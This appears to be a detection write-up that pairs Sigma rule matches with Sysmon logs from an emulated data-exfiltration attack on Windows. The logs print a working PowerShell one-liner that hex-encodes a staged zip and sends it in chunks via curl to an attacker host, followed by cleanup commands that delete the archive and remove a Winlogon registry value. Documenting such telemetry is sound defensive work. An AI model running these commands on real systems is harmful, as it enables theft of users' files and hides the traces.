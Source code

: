 Aurora Agent: Rule Matched:

```
1. Sigma rule match found: Folder Compress To Potentially Suspicious Output Via Compress-Archive Cmdlet
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in CommandLine
2. Sigma rule match found: Zip A Folder With PowerShell For Staging In Temp - PowerShell 
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in Data
		
```

### Exfiltration: Exfiltrating Hex-Encoded Data Chunks over HTTP

Sysmon Log: Process Creation

```
UtcTime 2025-03-31 10:53:31.707 
  ProcessGuid {c5d2b969-742b-67ea-4c01-000000002901} 
  ProcessId 1052 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$file=\"$env:TEMP\exfil.zip\"; $destination=\"http://10.10.39.5:8080/\"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe \"$destination$line\" } echo \"Done exfiltrating the data. Check your listener.\"" 
  ParentProcessId 5464 

```

Process Creation. All the next 23 Curl.exe Process execution is to exfiltrate the file

![image.png](attachment:214dfcb4-ceba-400f-a4a0-df7fb358b87d:image.png)

Then, 23 network connections are made to the attacker's machine

![image.png](attachment:4c73617b-6322-4202-a01d-1a9d43d222ae:image.png)

After the exfiltration is done, the cleanup command is executed

```
UtcTime 2025-03-31 10:55:12.814 
  ProcessId: 5116 
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName: PowerShell.EXE 
  CommandLine: powershell.exe -ExecutionPolicy Bypass -C "Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore" 
  ParentProcessId: 5464 
  
```

**Process Creation:**

```
 UtcTime 2025-03-31 10:55:13.917 
  ProcessGuid {c5d2b969-7491-67ea-6501-000000002901} 
  ProcessId 5824 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Remove-ItemProperty -Path \"HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\\" -Name \"Shell\" -Force -ErrorAction Ignore" 
  ParentProcessId 5464 

```
